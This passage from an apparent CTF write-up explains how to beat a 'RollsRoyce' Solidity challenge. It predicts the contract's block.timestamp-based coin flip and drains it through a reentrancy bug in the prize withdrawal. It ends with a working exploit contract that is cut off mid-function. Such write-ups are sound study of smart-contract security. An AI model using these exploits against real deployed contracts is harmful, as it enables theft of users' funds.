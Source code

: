Our `receive` fallback does what I described before: it calls the vulnerable function in our target again as long as it has ether left, getting 1 ether out in each all since the original one is still waiting on this callback to finish before setting `claimedPrizeMoney` to `true`.

We can now just call `guess` a few times (remember to give it ether) until we see that our contract manages to get 3 wins - it can a bit tedious and expensive, but we'll get the money back later...

Somehow, when writing this, I managed to get 3 wins on my first try though!

![obraz.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1654522626278/F9gH5OytT.png align="center")

Still, for now we've just added some ether to our target (the starting balance of this IntendedSolution contract was 12 ether):

![obraz.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1654522644774/U57MOJ9D_.png align="center")

But let's finally call our `withdrawPrizeMoney` funciton, and...

![obraz.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1654522736231/fJYEYGcqH.png align="center")

And now all that remains again is just getting the flag from the server:
![obraz.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1654522777534/vEBGyhQKR.png align="center")

# Combining the approaches

It's of course also possible to combine the two vulnerabilities - once we can predict the random number for a block it's trivial to automate getting the initial 3 guesses, and then using reentrancy bug to drain the contract without creating child contracts in the process.  The resulting contract might look something like this:
```solidity
contract CombinedExploit {
    RollsRoyce public target;
    constructor (address payable _target) payable {
        target = RollsRoyce(_target);
    }
    function flipCoin() private view returns (RollsRoyce.CoinFlipOption) {
        return
            RollsRoyce.CoinFlipOption(
                uint(
                    keccak256(abi.encodePacked(block.timestamp ^ 0x1F2DF76A6))
                ) % 2
            );
    }
    function guessCorrectly() public payable {
        require(address(this).balance >= 3 ether, "To guess you need 3 ether");
        for (uint i=0;i<3;i++) {
            RollsRoyce.CoinFlipOption result = flipCoin();
            target.guess{value: 1 ether}(result);
            target.revealResults();
        }
    }
    function withdrawPrizeMoney() public {
        target.withdrawFirstWinPrizeMoneyBonus();
    }
    receive() external payable {
        if (address(target).balance > 0 && target.viewWins(address(this)) >= 3) {
            withdrawPrizeMoney();
        }
    }
    function getBackOurMoney(address payable recipient, uint256 amount) public {
        (bool success, ) = recipient.call{value: amount}("");
    }
    function fullExploit(address payable recipient) public payable {
        guessCorrectly();
```